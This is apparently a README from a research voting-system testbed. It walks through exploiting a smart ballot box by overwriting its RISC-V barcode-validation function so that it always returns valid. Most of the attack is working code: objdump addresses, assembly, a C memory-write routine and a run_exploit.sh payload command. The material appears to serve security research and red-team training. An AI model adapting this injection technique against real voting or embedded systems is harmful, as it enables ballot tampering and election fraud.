 This is an example of how to overwrite instructions in the SBB code. The peek-poke server won't let you write directly to SBB instructions, but you can use it to write instructions to the `malware` function that will write to the SBB code. This exploit walks through how to overwrite the function responsible for validating barcodes to always return `BARCODE_VALID`.

# Examine the SBB source code & use objdump

As you might be able to predict by thinking about how the SBB source code works, there is a function that is called to validate whether a given barcode is valid. Let's find this function and see what it does.

Looking at the code that controls the SBB state machine, we see a function called [`run_barcode_detected`](../../source/sbb/sbb_machine.c#L279). This function calls [`is_barcode_valid`](../../source/sbb/sbb.c#L93), which is a wrapper over [`crypto_check_barcode_valid`](../../source/sbb/sbb_crypto.c#L61). 

The `crypto_check_barcode_valid` function returns a `barcode_validity` enum, which is defined [here](https://gitlab-ext.galois.com/ssith/voting-system/blob/master/source/sbb/sbb_t.h#L93):

```
typedef enum { // invalid barcode classifications
              BARCODE_VALID,
              BARCODE_INVALID_LENGTH,
              BARCODE_INVALID_ENCODING,
              BARCODE_INVALID_SIGNATURE,
              BARCODE_INVALID_TIMESTAMP,
              BARCODE_INVALID_OTHER,
} barcode_validity;
```

Each member of that enum will be compiled to the index at which they appear; this means that `BARCODE_VALID`, the value you would like to return, will compile to `0`.

Your goal, then, is to overwrite `crypto_check_barcode_valid` to always return 0, which will be interpreted as the `BARCODE_VALID` value.

Let's find the address of that `crypto_check_barcode_valid` starts at:

```
```

Examining the objdump in your favorite text editor, you can find the relevant address:
```
c0026f3c <crypto_check_barcode_valid>:
c0026f3c:       f8010113                addi    sp,sp,-128
c0026f40:       06112e23                sw      ra,124(sp)
c0026f44:       06812c23                sw      s0,120(sp)
c0026f48:       08010413                addi    s0,sp,128
c0026f4c:       f8a42623                sw      a0,-116(s0)
```

Here you'll want `0xc0026f3c`. Note that because we want to overwrite the function to simple return 0 we can step on the part of the function which sets up the stack by moving the stack pointer (sp), but for some more complicated exploits you might want to mind the setup & tear down part of the function body.

To construct this exploit you will need to take two steps: first, get the hex representation of the instructions necessary to return 0, and then get the assembly which writes those instructions to the correct memory location (the beginning of the `crypto_check_barcode_valid` function). This is because the peek-poke server will only let you write instructions to the `malware` function; you cannot write these instructions directly.

# Binary for return 0

First let's get the hex for the RISC-V assembly instructions for the function which simply returns 0. In RISC-V the return value is passed in register `a0`, so the instructions are:

```
mv a0, zero
ret
```

Simple. For more complicated operations you may wish to use a compiler; the [godbolt compiler explorer](https://godbolt.org/z/o15-m-) is a useful online tool. Just be mindful that the highlighting does not always match up exactly to the source code.

Next, let's save this into a file called `return-0.asm` and get the hex for these instructions:

```
[nix-shell]$ riscv32-unknown-elf-as -o return-0.elf return-0.asm
[nix-shell]$ riscv32-unknown-elf-objdump -d return-0.elf
...
Disassembly of section .text:

00000000 <.text>:
   0:	00000513          	li	a0,0
   4:	00008067          	ret
```

Next up: write those hex values (`0x00000513` and `0x00008067`) to the location of the first instruction in `crypto_check_barcode_valid` (`0xc0026f3c`).

# Inject the return 0 instructions

Let's write [another C program](https://godbolt.org/z/sjD4CL) that has the desired effect:

```
void exploit() {
    // write to the address of crypto_check_barcode_valid
    int *x = (int *)0xc0026f3c;
    // this is the "load 0 into a0" instruction
    x[0] = 0x00000513;
    // this is the "ret" instruction
    x[1] = 0x00008067;
}
```

Get the RISC-V 32-bit assembly for this function, and pick out the bits relevant to the function body (everything between the instructions that move the stack pointer "sp" around):

```
lui     a0, 786471
addi    a0, a0, -196
sw      a0, -12(s0)
lw      a0, -12(s0)
addi    a1, zero, 1299
sw      a1, 0(a0)
lw      a0, -12(s0)
lui     a1, 8
addi    a1, a1, 103
sw      a1, 4(a0)
```

Save this into a file called `inject-return-0.asm`. We can use this file as the payload to the `run_exploit.sh` script.

# Run the exploit

Move a directory down and call `run_exploit.sh`:

```
cd ..; ./run_exploit.sh inject-return-0.asm
```

Remember that you need to set the `SBB_IP` and `malware_start_addr` environment variables before running `run_exploit.sh`. For a more in-depth explanation, see the [AES-key-to-display README](../AES-key-to-display/README.md). 

# Recap

This example demonstrated how to rewrite the body of a function in the source code with your own sequence of instructions (though this sequence must be no longer than the original function body). To do this, you:

* found the function you wanted to overwrite, and what you wanted to overwrite it with, by inspecting the source code
* found the memory location of the first instruction in the function you wanted to write using objdump
* got the assembly for the instructions you wanted to write
    * In this simple example you put them together manually; you could also use a compiler
* got the hex values of those instructions using objdump 
* wrote a C program which wrote those hex values to the memory location of the first instruction in the function you wanted to overwrite
    * If you want to modify control-flow in a more complicated way, you will need to be careful to not step on the stack frame setup & tear-down code at the beginning and end of the function
* got the assembly for this function using a RISC-V 32-bit compiler
* ran `./run_exploit.sh` with that assembly as the payload
